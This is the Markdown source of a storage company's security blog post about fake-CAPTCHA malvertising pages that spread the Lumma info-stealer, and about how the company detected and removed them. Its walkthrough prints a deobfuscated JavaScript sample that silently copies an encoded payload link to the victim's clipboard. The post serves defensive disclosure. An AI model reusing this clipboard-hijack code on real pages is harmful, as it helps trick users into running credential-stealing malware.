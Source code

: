 ```yaml
---
slug: fake-captchas
title: "Fake CAPTCHAs and Malvertising"
description: >
  Tigris detected fake CAPTCHAs on our platform. Here's what we did to remove them and stay a step ahead of attackers.
image: ./tiger-in-soc.webp
keywords: [object storage, blob storage, s3, abuse, security]
authors: [ot]
tags: [abuse, security]
---
```




Tigris is a globally distributed, multi-cloud object storage service with built-in support for the S3 API. As Tigris has grown this year, we’ve noticed an uptick in abuse of our platform. A natural side effect of growth in usage is growth in misusage.

Earlier this year, security researchers discovered a [“DeceptionAds” campaign](https://www.infostealers.com/article/deceptionads-fake-captcha-driving-infostealer-infections-and-a-glimpse-to-the-dark-side-of-internet-advertising/) running on several trusted services. Attackers used fake CAPTCHAs that instruct users to perform actions such as pressing "Windows + R," pasting a command, and hitting "Enter." This sequence executes a PowerShell command that installs the Lumma info-stealer malware, compromising personal data including credentials and financial information. The attackers hosted fake CAPTCHAs on Bunny CDN, a legitimate CDN provider, and used BeMob, an ad tracking service, to cloak malicious URLs. Hiding behind trusted infrastructure allowed the attackers to circumvent moderation and other security checks.

![Ty the tiger monitoring alerts in a security operations center](./tiger-in-soc.webp)

{/* truncate */}

Tigris detected a similar pattern with fake CAPTCHAs on our platform back in February of this year. Common threat intelligence monitoring services flagged content hosted on Tigris as malicious and published a list of URLs that included Tigris domains. We ran additional scans and contacted third party services for more information as to the malicious content they had detected. As a result, we removed the content and banned users that were uploading malicious content.

Let’s go through how we detected the scheme, what we did to stop it, and the systems we hardened to prevent it from happening again.

## Scaling Response & Prevention

With petabytes of data entering the platform, we have to be efficient with scanning content. It’s not trivial: a suboptimal solution could eclipse the cost of storage by magnitudes. Not every object can be scanned on write, so modern platforms rely on a multi-layered approach to manage risk that includes:
- Accepting abuse reports & acting on them
- Working with security vendors including researchers for fast response and prevention
- Reasonable scanning & prevention
- Enforcing identity verification for all users, including MFA

Not every file uploaded to the platform can reasonably be scanned, so it’s helpful to think about the larger patterns around abuse. Mainly, the bad actors with many disposable emails and VPNs who recreate accounts and repost the same malicious content. Requiring email verification and multifactor authentication reduces the creation of these accounts dramatically. By leveraging our partners’ reliability systems and incorporating their user reputation score into our considerations, we are able to prevent recurrence and ban users from the platform entirely. 

For users with a lower reputation score who upload content of a commonly exploitable type, we flag their content for scanning in common security tooling.

We also partnered with the vendors and security researchers maintaining commonly used Denylists and repositories of malware used in scanning. We partnered with these vendors to ensure our monitoring caught the same issues they detected so that we can act quickly in response to reports.

And, of course, our Terms of Service do not allow malicious content nor abuse. We also maintain an `abuse@` email for reports and added links to our website for reporting abusive usage.

## Types of Malicious Content 

At Tigris, these are the most common types of malicious content we have detected:

|                                             |                                                                                                                |                                                                                        |
| ------------------------------------------- | -------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------- |
| Activity                                    | MITRE ATT\&CK ID & Technique                                                                                   | Description                                                                            |
| User Executes Initial PowerShell Code       | T1566 – Phishing                                                                                               | The attack began with a phishing lure using a fake reCAPTCHA page to deceive the user. |
| Phishing via Fake CAPTCHA Page              | T1204 – User ExecutionT1059.001 – Command and Scripting Interpreter: PowerShell                                | The user was tricked into executing an initial PowerShell script.                      |
| Payload Download via mshta.exe              | T1218.005 – System Binary Proxy Execution: MshtaT1027.009 – Obfuscated Files or Information: Embedded Payloads | The script used mshta.exe to fetch a hidden script containing the payload.             |
| Obfuscated Payload Execution via PowerShell | T1059.001 – PowerShellT1027.013 – Obfuscated Files or Information: Encrypted/Encoded File                      | The payload was encrypted and executed through PowerShell.                             |
| Information Collection Activities           | T1217 – Browser Information DiscoveryT1083 – File and Directory Discovery                                      | The stealer gathered system, browser, and file information.                            |
| Data Exfiltration over C2 Channel           | T1041 – Exfiltration Over C2 Channel                                                                           | The collected data was exfiltrated through a remote C2 channel.                        |

### Example Walkthrough - Fake CAPTCHA

#### Findings

A Lumma Stealer campaign uses fake CAPTCHAs, malvertising, and new evasion techniques to target Windows users globally. The infection chain includes clipboard-based commands run via Windows Run, bypassing browser defenses.

![A fake reCAPTCHA detected by Virus Total and removed from a Tigris bucket](./captcha-sample.png)

<center>
  <small>
    <em>A fake reCAPTCHA detected by Virus Total and removed from a Tigris bucket</em>
  </small>
</center>

#### Sample

![HTML containing an obfuscated Javascript function](./html-sample.png)
<center>
  <small>
    <em>HTML containing an obfuscated Javascript function</em>
  </small>
</center>
{/* truncate */}


This HTML contains an obfuscated Javascript function that looks like this (long code block collapsed):


<details>
  <summary>Long code block with obfuscated JavaScript function</summary>
  <CodeBlock language="js">{markdownChunk}</CodeBlock>
</details>

This function translates roughly to the code below:

<CodeBlock language="js">
{`(function () {
  var encodedText = "R0cHM6Ly8ybm8uY28vMlpXNno2";
  var buttonId = "kkk";
  var classNameToAdd = "show";

  function decodeBase64(str) {
    return decodeURIComponent(escape(window.atob(str)));
  }

  document.getElementById(buttonId).onclick = function () {
    var textarea = document.createElement("text" + "area");
    textarea.value = decodeBase64(encodedText);
    document.body.appendChild(textarea);
    textarea.select();
    document.execCommand("copy");
    document.body.removeChild(textarea);
    document.getElementById("i").classList.add(classNameToAdd);
    document.getElementById("k").classList.add(classNameToAdd);
    document.getElementById("ent").removeChild(textarea);
  };
})();`}
</CodeBlock>


The key steps of this function are:
- Decodes a base64 string containing a likely payload (e.g., a malicious link)
- Auto-copies it to the user's clipboard using a hidden `<textarea>`.
- Modifies the DOM to show or hide elements using class changes (show class).
- Triggers on click of an element with ID kkk.
- Tricking users into running commands manually or auto-pasting payloads.

#### Obfuscated Payload Execution via PowerShell

Below HTML code is the original source (long code block collapsed):


<details>
  <summary>Long code block with obfuscated JavaScript function</summary>
  <CodeBlock language="js">{markdownChunk2}</CodeBlock>
</details>

<InlineCta
  title={"Infinite storage for your embeddings"}
  subtitle={
  "Tigris is object storage that gives you bottomless storage for whatever you want, including your vector embeddings, images, or secret plans to achieve total world domination! Not to mention the seamless global architecture. Give it a try today!"
    }
    button={"Get started today!"}
/>